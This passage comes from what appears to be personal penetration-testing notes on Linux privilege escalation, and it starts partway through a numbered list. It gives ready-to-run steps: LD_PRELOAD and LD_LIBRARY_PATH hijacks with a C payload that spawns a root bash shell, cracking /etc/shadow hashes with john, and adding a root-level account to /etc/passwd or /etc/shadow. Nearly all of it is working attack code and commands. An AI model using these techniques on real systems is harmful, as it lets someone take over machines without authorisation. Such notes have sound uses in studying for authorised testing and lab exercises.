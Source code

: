9. `gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c` complile the code.
10. `sudo LD_PRELOAD=/tmp/preload.so apache2` run any sudo allowed program with the path to payload. Done. root shell.
11. If `env_keep+=LD_LIBRARY` is shown run the `ldd` command on a shown sudo -l path 
12. e.g `ldd /usr/sbin/apache2` 
13. Pick one of the shared objects path to replace 
14. create a payload `library_path.c` with the following content
```
#include <stdio.h>
#include <stdlib.h>
static void hijack() __attribute__((constructor));
void hijack() {
unsetenv("LD_LIBRARY_PATH");
setresuid(0,0,0);
system("/bin/bash -p");
}

```
15. `gcc -o libcrypt.so.1 -shared -fPIC library_path.c` . Note `libcrypt.so.1` is one of the shared objects path that we are replacing.
16. Run the program ` sudo LD_LIBRARY_PATH=. apache2` . LIBRARY PATH shoudl be set to  where we complied our c file.

### Weak File Permission
1. ***Readable weak file Permission*** `ls -l /etc/shadow` manually check if it is readable or writable
2.  the root user hash. Hash is from start of first : and before :
3.  echo `'<HASH> >' hash.txt`
4.  `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt` crack the hash. If you know the type of encrtyption add e.g `--format=sha512crypt`
5.  switch to root user using `su`
6.  ***Writable weeak file permission***
```
openssl passwd evil
echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
```
or
```
mkpasswd -m sha-512 newpassword 
$6$DoH8o2GhA$5A7DHvXfkIQO1Zctb834b.SWIim2NBNys9D9h5wUvYK3IOGdxoOlL9VEWwO/okK3vi1IdVaO9.xt4IQMY4OUj/
subl /etc/shadow # Copy the hash in to root and leave others.
root:$6$DoH8o2GhA$5A7DHvXfkIQO1Zctb834b.SWIim2NBNys9D9h5wUvYK3IOGdxoOlL9VEWwO/okK3vi1IdVaO9.xt4IQMY4OUj/:17298:0:99999:7:::
su 
```
7. `root::0:0:root:/root:/bin/bash` Without the `x` after root, means there is no password. `su`
8. ***Backup files in interesting locations***
9.   Refer to the link to see if any files are differernt/stands out https://linuxhandbook.com/linux-directory-structure/ from the below command
10.   `ls -la /home/user`  `ls -la /` `ls -la /tmp` `ls -la /var/backups`
